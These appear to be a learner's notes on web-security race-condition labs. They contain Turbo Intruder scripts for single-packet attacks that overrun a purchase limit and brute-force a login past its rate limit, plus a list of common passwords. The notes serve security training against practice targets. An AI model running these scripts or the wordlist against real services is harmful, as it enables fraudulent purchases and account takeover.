

### Lab: Limit overrun race conditions

This lab's purchasing flow contains a race condition that enables you to purchase items for an unintended price.

To solve the lab, successfully purchase a Lightweight L33t Leather Jacket.

You can log in to your account with the following credentials: wiener:peter. 

## Detecting and exploiting limit overrun race conditions with Turbo Intruder

To use the single-packet attack in Turbo Intruder:

-    Ensure that the target supports HTTP/2. The single-packet attack is incompatible with HTTP/1.
-    Set the `engine=Engine.BURP2` and `concurrentConnections=1` configuration options for the request engine.
-    When queueing your requests, group them by assigning them to a named gate using the gate argument for the `engine.queue()` method.
-    To send all of the requests in a given group, open the respective gate with the `engine.openGate()` method.

```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=1,
                            engine=Engine.BURP2
                            )
    
    # queue 20 requests in gate '1'
    for i in range(20):
        engine.queue(target.req, gate='1')
    
    # send all requests in gate '1' in parallel
    engine.openGate('1')
```        

For more details, see the `race-single-packet-attack.py` template provided in Turbo Intruder's default examples directory.

### Lab: Bypassing rate limits via race conditions

This lab's login mechanism uses rate limiting to defend against brute-force attacks. However, this can be bypassed due to a race condition.

To solve the lab:

-    Work out how to exploit the race condition to bypass the rate limit.
-    Successfully brute-force the password for the user carlos.
-    Log in and access the admin panel.
-    Delete the user carlos.

You can log in to your account with the following credentials: wiener:peter. 
> 123123
abc123
football
monkey
letmein
shadow
master
666666
qwertyuiop
123321
mustang
123456
password
12345678
qwerty
123456789
12345
1234
111111
1234567
dragon
1234567890
michael
x654321
superman
1qaz2wsx
baseball
7777777
121212
000000

Turbo Intruder script:
```py
def queueRequests(target, wordlists):

    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    
    # assign the list of candidate passwords from your clipboard
    passwords = wordlists.clipboard
    
    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    
    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)
```
The table give us the password


## Multi-endpoint race conditions

Perhaps the most intuitive form of these race conditions are those that involve sending requests to multiple endpoints at the same time.

Think about the classic logic flaw in online stores where you add an item to your basket or cart, pay for it, then add more items to the cart before force-browsing to the order confirmation page.

A variation of this vulnerability can occur when payment validation and order confirmation are performed during the processing of a single request. The state machine for the order status might look something like this:


In this case, you can potentially add more items to your basket during the race window between when the payment is validated and when the order is finally confirmed.
